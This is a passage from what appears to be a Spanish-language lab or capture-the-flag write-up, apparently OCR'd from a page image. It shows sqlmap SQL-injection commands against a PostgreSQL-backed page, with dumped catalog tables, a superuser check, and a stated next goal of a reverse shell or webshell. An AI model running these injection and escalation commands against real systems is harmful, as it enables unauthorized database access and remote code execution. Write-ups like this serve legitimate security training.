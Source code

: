 	| height     | int4      |
	| weight     | int4      |
	+------------+-----------+

	```
	- **sqlmap -u "http://192.168.193.49/class.php" --data="weight=70&height=174" -p height -D pg_catalog -T pg_auth_members --columns**
	```
	Database: pg_catalog
	Table: pg_auth_members
	[4 columns]
	+--------------+------+
	| Column       | Type |
	+--------------+------+
	| member       | oid  |
	| admin_option | bool |
	| grantor      | oid  |
	| roleid       | oid  |
	+--------------+------+

	```
	- ** sqlmap -u "http://192.168.193.49/class.php" --data="weight=70&height=174" -p height -D pg_catalog -T pg_auth_members -C member,admin_option,grantor,roleid --dump**
	```
	Database: pg_catalog
	Table: pg_auth_members
	[3 entries]
	+----------+--------------+---------+--------+
	| member   | admin_option | grantor | roleid |
	+----------+--------------+---------+--------+
	| 3373     | false        | 10      | 3374   |
	| 3373     | false        | 10      | 3375   |
	| 3373     | false        | 10      | 3377   |
	+----------+--------------+---------+--------+
	```
	- **
4. Paso 4: El vector de ataque seria obtener un revese shell o un webshell(RCE):
	
	- Revisamos nuestros permisos.
	```
	sqlmap -u "http://192.168.193.49/class.php" --data="weight=70&height=174" -p height  --technique=BE --sql-query="SELECT current_setting('is_superuser')"
	...
	[01:34:15] [INFO] resumed: 'on'
	SELECT current_setting('is_superuser'): 'on'
